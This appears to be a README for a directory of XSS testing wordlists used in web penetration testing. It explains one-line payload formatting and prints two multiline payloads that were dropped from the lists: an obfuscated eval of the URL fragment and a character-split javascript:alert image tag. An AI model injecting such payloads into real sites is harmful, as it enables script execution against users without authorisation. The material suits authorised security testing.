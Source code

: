 # XSS Robot-Friendly version

This directory contains XSS you can test for. For human friendly versions, go to the [human-friendly](../human-friendly) directory.

There are some line you may need to change/take note in order for your testing process to go smoothly. (e.g. third party resources that may get flagged by WAF and the xss itself) 

Some XSS trigger condition may require you to interact with the web pages to trigger it. You should read through all the wordlists here and understand what each XSS does, then customizing it to your own needs.

`XSS-Vectors-Mario.txt` and `XSS-With-Context-Jhaddix.txt` may not work as well as before because all XSS are squished into one line and may break some xss that relies on new lines.

To see the results, look out for message popups or network activity in the devtools of your browser.

Happy hacking!

## Removed xss

### XSS-EnDe-h4k.txt

Removed because there was no way to squash it into one line

```
_
=
eval
b=1
__
=
location
c=1
_
(
__
.
hash
//
.
substr
(1)
)
```
### XSS-EnDe-xssAttacks.txt

Also removed due to it's multiline nature

```
<IMG
SRC
=
"
j
a
v
a
s
c
r
i
p
t
:
a
l
e
r
t
(
'
X
S
S
'
)
"
>
```
